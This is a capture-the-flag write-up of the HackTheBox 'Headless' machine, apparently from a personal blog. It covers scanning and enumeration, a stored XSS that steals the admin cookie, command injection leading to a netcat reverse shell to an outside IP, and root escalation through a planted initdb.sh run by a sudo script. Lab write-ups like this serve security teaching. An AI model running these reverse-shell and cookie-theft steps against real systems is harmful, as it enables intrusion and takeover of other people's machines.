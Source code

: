 ```yaml
---
title: HackTheBox - Headless
date: 2024-08-05 18:09:00 +0800
categories:
  - hackthebox
tags:
  - ctf
---
```



### STEP 1 SCAN 

First of all, let's do an nmap scan with the following flag:

```nmap -p- -sC -sV -T4 10.10.11.8```

- -p- to scan all ports
- -sC to execute the default scripts
- -sV to see which services are running
- -T4 to to use a timing template to make our scan faster

With the output of our scan we can see we have 2 ports open:
![nmap.png](nmap.png)
- Port 22 for ssh(Secure Shell), this will not interest us because it is very rare to find a security vulnerability on the SSH protocol
- Port 5000 we have an http server, it will greatly interest us because we now know that we have to deal with a web server

Just open the browser with the following url 
https://<IP_TARGETED>:<PORT_NUMBER>

![website1.png](website1.png)

### STEP 2 ENUMERATION

Now that we know we are dealing with a web server we can perform dirbusting to know the files of the website

I used gobuster for this with the following flags :
- dir for dirbusting(enumeration of the directories of the website)
- -u to specify the url targeted
- -w to specify the wordlist to use

Either the following command
``` gobuster dir -u http://10.10.11.8:5000/ -w /./usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt ```

With the following output of our gobuster command we can see we have only two directories for this website:
![website2.png](website2.png)

When we're on the the website with the IP address following by the port is we click on the button "For questions" we're redirected on the directory /support 

We can not access the/dashboard because as a user we are not allowed, so it must be borne in mind that connection cookies will make full part of this challenge

### 3 STEP INTERACT LIKE A USER

Ok, now we're here
![website3.png](website3.png)
If we complete each section and click on submit, nothing happens. 
In this case we can try to do an XSS(Cross Site Scripting) a persistent XSS (because we will inject malicious code form that will be injected and run in the browser of the victim)

Like this : 
![website4.png](website4.png)

Now we have something is going on:
![website5.png](website5.png)

Now that we’re done acting as a user, it’s time to put on the hacker hood to slip on your best goodie and launch burpsuite

###  STEP 4 TRY TO HAVE ACCESS TO DASHBOARD

Here, the objective is to get the cookie of the administrator to be able to connect to the dashboard, that’s why we will put our machine on listening on the port of our choice (here port 9001), to be able to receive the cookie from the administrator when his browser will load our form.

Use the following command to put your machine on listening.

```nc -lnvp 9001 ```

- nc stands for the tool netcat
- -l for listen mode
- -v for verbosity
- -n only for IP address
- -p to specify the specific port


Just launch burpsuite (if you're like what's that tool don't worry we can learn that [here](https://www.geeksforgeeks.org/what-is-burp-suite/))
![burpsuite_off.png](burpsuite_off.png)

You can enable request interception,
![burpsuite_on.png](burpsuite_on.png)
When we return our malicious request we can change the parameters here in this case the user agent parameter because the modification of the user agent does not change the data contained in the request.

We can find our xss payload [here](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b#file-xss-payload-steal-session-cookie) :
In the payload just replace by your IP address following by the port of your choice (here 9001)

Now we have what we are looking for :
![burp1.png](burp1.png)
 Now as we can see the admin cookie is our :
 ![response_nc.png](response_nc.png)

In your browser now you can try to access to the dashboard directory, if you can't don't worry it is normal, the only thing you need to do is to go to the developer console of your browser and to enter in the Storage section --> Cookies section --> And to replace the value of the cookie present with that of our admin
![cookie.png](cookie.png)

### STEP 5 LET'S TAKE A FOOT IN THE MACHINE

Now from this dashboard we will see with the help of ntore ami burp suite what happens when we click on the button "Generate a report".

![before_ci.png](before_ci.png)

we can see if there are a command injection ?

![ci.png](ci.png)

That's right, we have a command injection.

What we’re going to do is we’re going to create a reverse shell and we’re going to url encode our command to make sure that our reverse shell works

That's our command, 

```nc 10.10.16.11 60000 -e /bin/bash ```

Now let's url encode:

nc%2010.10.16.11%2060000%20-e%20%2Fbin%2Fbash

you need before performing the command injection to listen on the port of your choice here port 60000

``` nc -lnvp 60000```

just put our command and send the request

![ci2.png](ci2.png)


Now we have one foot in the machine :
(We can have a better shell using the command 
```python3 -c 'import pty; pty.spawn("/bin/bash")'``` )

![revshell1.png](revshell1.png)
We can now obtain our first flag
![screenflag.png](screenflag.png)
Let's goo !!!! We're a user, ok now let's try to be root!!!

### STEP 6 : A PRIVILEGE ESCALATION MUST BE PERFORMED

with the command ```sudo -l```, let's which command we can run 
We have this output:

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

We need to have more information about this command syscheck
The bash code behind this command is as follows

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

this command execute an other file initdb.sh and that's very interesting because when you type 
```shell
find -type f -name "initdb.sh"
```
We can see we have no output the file "initdb.sh" doesn't exist then we can create it, let's go.

I jump in the folder /./tmp because we need to have full rights to create and modify our "initdb.sh" like this (We use the binary netcat to do a priviledge escalation):

```shell
echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.11 60001 -e "/bin/bash"' >> initdb.sh
```

We just have to execute our command :

```shell
sudo syscheck
```

And as you can see :

![root.png](root.png)

Now you just have to cat the flag and GG you pwn the Headless Machine.

If you ever have the machine pwn in another way or you find my post incomplete do not hesitate to notify me via my twitter

Thank you for reading this post, have a good day.




















